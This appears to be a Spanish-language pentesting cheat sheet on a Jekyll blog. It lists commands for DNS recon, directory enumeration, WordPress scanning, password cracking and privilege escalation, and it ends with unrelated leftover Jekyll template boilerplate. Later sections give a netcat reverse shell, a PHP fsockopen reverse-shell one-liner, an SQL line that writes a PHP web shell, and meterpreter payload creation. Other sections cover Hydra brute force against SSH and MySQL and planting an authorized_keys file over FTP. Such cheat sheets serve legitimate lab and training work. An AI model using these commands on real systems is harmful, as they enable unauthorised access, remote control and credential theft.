 ```yaml
---

layout: post
---
```


Buscar otros TLD de un dominio con DNSRecon

dnsrecon -t tld -d dominio.com

Listar los PTR de un rango IP con DNSRecon

dnsrecon -r 195.235.XXX.1-195.235.XXX.254 -t rvl

Buscar subdominios de un dominio

fierce --dns domain.com

Escaneo ARP de una red local.

arp-scan --localnet --ignoredups

Descubrir hosts activos en la red local.

netdiscover

Capturar documentos de un dominio con metagoofil

metagoofil -d www.eninsoft.com -t pdf -o /tmp/ -f /tmp/process.html

Capturar información de un host con Dmitry

dmitry -w -e -n -s www.eninsoft.com -o /tmp/process.html

Buscar infromación en motores de búsqueda.

theharvester -l 100 -b google -d www.eninsoft.com

Buscar vulnerabilidades con Wpscan

wpscan --url http://192.168.1.10/wp/ -e at -e ap -e u

Enumerar usuarios de WordPress con Wpscan

wpscan --url http://192.168.1.69 --enumerate u

Fuerza bruta de usuarios de WordPress con Wpscan

wpscan --url http://192.168.1.69 -U users.txt -P passwords.txt

Scanear todos los puertos modo agresivo con Nmap

nmap -p- -A 192.168.1.103

Enumeración de directorios con diccionario grande con Dirb

dirb http://192.168.1.103:8080 /usr/share/wordlists/dirb/big.txt
dirb http://192.168.1.221:8000 -X .php, .txt, .py /usr/share/wordlists/dirb/big.txt

Enumeración de directorios con diccionario grande con Dirsearch

./dirsearch -u http://192.168.1.103:8080 -e php -w /usr/share/wordlists/dirb/big.txt

Enumeración de directorios con diccionario grande con Gobuster

gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/big.txt

Enumeración de directorios con Dirbuster

dirbuster

Escaneo con Skipfish – Google tool -.

skipfish -b ie -Z -Q -o skipfishdir -U -S /usr/share/skipfish/dictionaries/medium.wl -W- https://www.eninsoft.com

skipfish -Y -L -o skipfishdir1 -X "toggle" https://www.eninsoft.com

Escaneo con Arachni.

** La versión que lleva parrot os por defecto no es la ultima, se recomienda descargar la ultima des de la web official.

~/Applications/arachni/bin/
./arachni_web

http://localhost:9292
Email: admin@admin.admin
Password: administrator

Crear un servidor web simple con Python 1/2/3.

python -SimpleHTTPServer

python2 -m SimpleHTTPServer 8080

python3 -m http.server 

Crear un servidor web simple con PHP.

php -S 0.0.0.0:8080

Decodificar un string codificado con Base64.

echo "am9objpZWlckczhZNDlJQiNaWko=" | base64 -d

Listar los ejecutables disponibles con permisos de sudo

sudo -l

Crear un ejecutable con una shell meterpreter reverse_tcp con MSF VENOM.

msfpc windows 192.168.1.69

Crear un puerto de escucha con netcat.

nc -lvp 4444

Conectarse a otra máquina con netcat.

nc 192.168.43.134 1337
nc -e /bin/bash 192.168.1.10 4444

Ejecutar un PHP reverse shell.

sudo /usr/bin/php -r '$sock=fsockopen("192.168.29.157",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Fuerza bruta de contraseñas con Hydra

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.10 mysql  # Mysql
hydra -L user.txt -P dict.txt 192.168.1.101 ssh -s 65345 -e nsr  # SSH

SQL para subir una PHP shell en un servidor

select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/raj.php';

Fuerza bruta de una Hash con JohnTheRipper.

john hash.txt
john --format=mssql12 --wordlist=./Tools/Wordlists/rockyou.txt ./hash.txt

Fuerza bruta de una HASH con Hashcat

hashcat ./hash.txt ./Tools/Wordlists/rockyou.txt
hashcat -m 1800 ./hash.txt ./Tools/Wordlists/rockyou.txt --force

Crear un diccionario con las palabras del contenido de una web con Cewl.

cewl http://192.168.1.10/ -w diccionario.txt

Crear una clave SSH privada-publica y subirla a un servidor FTP.

ssh-keygen
cd .ssh
ls
cat id_rsa.pub > authorized_keys
ls

#Conectamos por FTP en el servidor remoto para subir el archivo
ftp 192.168.1.101
mkdir .ssh
cd .ssh
put authorized_keys

Buscar archivos con el bit SUID

find / -perm -u=s -type f 2>/dev/null

Buscar exploit usando exploit-db

apt -y install exploitdb
searchsploit xxx    # package name
searchsploit -m 1245 

Sniffar el trafico de una red filtrando paquetes arp.

tcpdump -A -n host 192.168.1.10 and arp

Ver información extra de un archivo.

file archivo



{% highlight ruby %}
def print_hi(name)
  puts "Hi, #{name}"
end
print_hi('Tom')
#=> prints 'Hi, Tom' to STDOUT.
{% endhighlight %}

Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: http://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
